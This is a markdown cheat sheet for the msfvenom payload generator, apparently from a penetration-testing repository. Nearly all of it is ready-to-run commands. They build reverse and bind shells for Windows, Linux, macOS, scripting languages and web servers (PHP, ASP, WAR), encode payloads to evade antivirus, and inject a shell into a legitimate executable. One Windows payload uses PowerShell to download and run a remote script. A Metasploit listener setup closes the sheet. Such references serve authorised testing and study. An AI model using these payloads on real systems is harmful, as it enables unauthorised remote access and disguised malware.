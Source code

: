 ## msfvenom CheatSheet
---
- [msfvenom CheatSheet](#msfvenom-cheatsheet)
  * [List](#list)
  * [Show Payload Options](#show-payload-options)
  * [Commonly Used Parameters](#commonly-used-parameters)
  * [Windows Payloads](#windows-payloads)
    + [Reverse Shell](#reverse-shell)
    + [Bind Shell](#bind-shell)
    + [CMD Shell](#cmd-shell)
    + [Enoder](#enoder)
    + [Into Executable](#into-executable)
  * [Linux Payloads](#linux-payloads)
    + [Reverse Shell](#reverse-shell-1)
    + [Bind Shell](#bind-shell-1)
  * [MAC Payloads](#mac-payloads)
    + [Reverse Shell](#reverse-shell-2)
    + [Bind Shell](#bind-shell-2)
  * [Scripting Payloads](#scripting-payloads)
    + [Python Reverse Shell](#python-reverse-shell)
    + [Bash Reverse](#bash-reverse)
  * [Web Payloads](#web-payloads)
    + [PHP](#php)
      - [Reverse Shell](#reverse-shell-3)
    + [ASP](#asp)
      - [Reverse Shell](#reverse-shell-4)
    + [WAR](#war)
      - [Reverse Shell](#reverse-shell-5)
  * [Metasploit Handler](#metasploit-handler)
---

```markdown
***MsfVenom - a Metasploit standalone payload generator.***
Also a replacement for msfpayload and msfencode.
Usage: `/opt/metasploit-framework/bin/../embedded/framework/msfvenom [options] <var=val>`
Example: `/opt/metasploit-framework/bin/../embedded/framework/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe`

**Options:**
    -l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all
    -p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
        --list-options               List --payload <value>'s standard, advanced and evasion options
    -f, --format          <format>   Output format (use --list formats to list)
    -e, --encoder         <encoder>  The encoder to use (use --list encoders to list)
        --service-name    <value>    The service name to use when generating a service binary
        --sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string
        --smallest                   Generate the smallest possible payload using all available encoders
        --encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)
        --encrypt-key     <value>    A key to be used for --encrypt
        --encrypt-iv      <value>    An initialization vector for --encrypt
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)
        --platform        <platform> The platform for --payload (use --list platforms to list)
    -o, --out             <path>     Save the payload to a file
    -b, --bad-chars       <list>     Characters to avoid example: '\x00\xff'
    -n, --nopsled         <length>   Prepend a nopsled of [length] size on to the payload
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
    -s, --space           <length>   The maximum size of the resulting payload
        --encoder-space   <length>   The maximum size of the encoded payload (defaults to the -s value)
    -i, --iterations      <count>    The number of times to encode the payload
    -c, --add-code        <path>     Specify an additional win32 shellcode file to include
    -x, --template        <path>     Specify a custom executable file to use as a template
    -k, --keep                       Preserve the --template behaviour and inject the payload as a new thread
    -v, --var-name        <value>    Specify a custom variable name to use for certain output formats
    -t, --timeout         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)
    -h, --help                       Show this message
```

### List 
---
```bash
# msfvenom -l payloads
# msfvenom -l encoders
```
### Show Payload Options
---
```bash
# msfvenom -p PAYLOAD --list-options
```
### Commonly Used Parameters
---
```markdown
-b "\x00\x0a\x0d"                <== Don't use this bad characters
-f c                             <== Output in C Hex String
-e x86/shikata_ga_nai -i 5       <== Encodes
```
### Windows Payloads
---
#### Reverse Shell
```bash
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP) LPORT=(PORT) -f exe > FILE.exe
```
#### Bind Shell
```bash
# msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP) LPORT=(PORT) -f exe > FILE.exe
```
#### CMD Shell
```bash
# msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > FILE.exe
# msfvenom -a x86 --platform Windows -p windows/exec CMD="dir c:\" -f exe > FILE.exe
```
#### Encoder
```bash
# msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > FILE.exe
```
#### Into Executable
```bash
# msfvenom -p windows/shell_reverse_tcp LHOST=(IP) LPORT=(PORT) -x /usr/share/windows-binaries/FILE_EXE_ORIGINAL.exe -f exe -o FILE_Meterpreter.exe
# msfvenom -p windows/shell_reverse_tcp LHOST=(IP) LPORT=(PORT) -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/FILE_EXE_ORIGINAL.exe -o FILE_Meterpreter.exe
```
### Linux Payloads
---
#### Reverse Shell
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP) LPORT=(PORT) -f elf > FILE.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > FILE.elf
```
#### Bind Shell
```bash
# msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP) LPORT=(PORT) -f elf > FILE.elf
```
### MAC Payloads
---
#### Reverse Shell
```bash
# msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP) LPORT=(PORT) -f macho > FILE.macho
```
#### Bind Shell
```bash
# msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP) LPORT=(PORT) -f macho > FILE.macho
```
### Scripting Payloads
---
#### Python Reverse Shell
```bash 
# msfvenom -p cmd/unix/reverse_python LHOST=(IP) LPORT=(PORT) -f raw > FILE.py
```
#### Bash Reverse
```bash
# msfvenom -p cmd/unix/reverse_bash LHOST=(IP) LPORT=(PORT) -f raw > FILE.sh
```
### Web Payloads
---
#### PHP 
##### Reverse Shell
```bash
# msfvenom -p php/meterpreter_reverse_tcp LHOST=(IP) LPORT=(PORT) -f raw > FILE.php
```
#### ASP 
##### Reverse Shell
```bash
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP) LPORT=(PORT) -f asp > FILE.asp
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP) LPORT=(PORT) -f aspx > FILE.aspx
```
#### WAR
##### Reverse Shell
```bash
# msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP) LPORT=(PORT) -f war > FILE.war
```

### Metasploit Handler
---
```
msf> set PAYLOAD (PAYLOAD)
msf> set LHOST (IP)
msf> set LPORT (PORT)
msf> set ExitOnSession false
msf> exploit -j -z
```






